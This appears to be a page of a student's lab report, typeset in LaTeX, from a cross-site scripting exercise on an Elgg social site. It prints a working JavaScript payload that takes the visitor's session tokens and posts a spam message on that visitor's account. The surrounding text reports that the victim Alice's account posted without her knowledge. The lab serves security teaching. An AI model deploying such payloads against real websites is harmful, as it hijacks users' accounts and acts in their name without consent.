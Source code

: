 \documentclass[12pt]{article}
\begin{document}
\begin{verbatim}
<script type="text/javascript">
    window.onload = function() {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var name = elgg.session.user.name;
        var guid = elgg.session.user.guid;

        var sendurl = "/action/thewire/add";

        // If the user is Samy, then the attack is not performed
        if (guid == 59) return; // User ID of Samy

        var postBody = "To earn 12 USD/Hour(!), visit now\nhttp://www.seed-server.com/profile/samy";

        var formData = new FormData();
        formData.append('__elgg_token', token);
        formData.append('__elgg_ts', ts);
        formData.append('body', postBody);


        var ajax = new XMLHttpRequest();
        ajax.open("POST", sendurl, true);
        ajax.setRequestHeader("Host", "www.seed-server.com");
        ajax.send(formData);
    }
</script>
\end{verbatim}
\newpage
When Alice visits Samy's profile this time, a post is made from her profile without her knowing it.
    \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss9.png}
         \caption{POST Request as a result of the attack}
         \label{fig:ss9}
     \end{figure}
    \begin{figure}[H]
         \centering
         \includegraphics[width=\textwidth]{Images/ss5.png}
         \caption{Wire post made from Alice's profile}
         \label{fig:ss5}
     \end{figure}
\end{document}
